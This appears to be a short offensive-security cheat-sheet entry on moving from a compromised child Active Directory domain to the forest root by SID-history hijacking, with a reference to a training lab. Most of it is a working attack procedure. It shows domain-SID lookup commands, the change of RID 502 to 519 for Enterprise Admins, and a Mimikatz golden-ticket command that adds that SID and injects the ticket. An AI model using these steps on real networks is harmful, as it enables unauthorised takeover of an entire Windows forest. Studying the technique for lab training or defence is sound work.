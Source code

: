 # Child Domain to Forest Compromise - SID Hijacking

Most trees are linked with dual sided trust relationships to allow for sharing of resources.
By default the first domain created if the Forest Root.

**Requirements**:

- KRBTGT Hash
- Find the SID of the domain

    ```powershell
    $ Convert-NameToSid target.domain.com\krbtgt
    S-1-5-21-2941561648-383941485-1389968811-502

    # with Impacket
    lookupsid.py domain/user:password@10.10.10.10
    ```

- Replace 502 with 519 to represent Enterprise Admins
- Create golden ticket and attack parent domain.

    ```powershell
    kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:domain.local /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt
    ```

## References

- [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)

